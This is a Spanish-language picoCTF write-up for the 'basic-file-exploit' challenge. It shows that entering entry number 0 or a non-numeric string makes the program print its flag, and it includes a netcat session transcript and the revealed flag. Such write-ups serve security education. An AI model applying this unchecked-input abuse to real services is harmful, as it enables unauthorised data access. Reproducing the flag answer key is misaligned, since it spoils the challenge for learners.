 # basic-file-exploit



## Descripción
The program provided allows you to write to a file and read what you wrote from it. Try playing around with it and see if you can break it!Connect to the program with netcat:`$ nc saturn.picoctf.net 50959`The program's source code with the flag redacted can be downloaded [here](https://artifacts.picoctf.net/c/141/program-redacted.c)

## Pistas
- Try passing in things the program doesn't expect. Like a string instead of a number.

## Solución

Si observamos el código fuente, podemos ver que la bandera se almacena en una variable estática y se imprimirá en **data_read()** cuando **entry_number** == 0. Este **entry_number** proviene de la  variable de  entrada que proviene de la entrada del usuario cuando se le solicita "Por favor ingrese el número de entrada de sus datos:\n”. Por lo tanto, solo tenemos que ingresar "0" o cualquier entrada con solo caracteres como "abc" para obtener **entry_number** == 0.

``` bash
┌──(kali㉿kali)-[~/Descargas/BE]
└─$ nc saturn.picoctf.net 50959
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
1
Please enter your data:
HOLA
HOLA
Please enter the length of your data:
4
4
Your entry number is: 1
Write successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
1
1
HOLA
Read successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
0
0
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_E0394EC0}
                                                                            
┌──(kali㉿kali)-[~/Descargas/BE]
└─$ 


``` 

## Bandera 
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_E0394EC0}
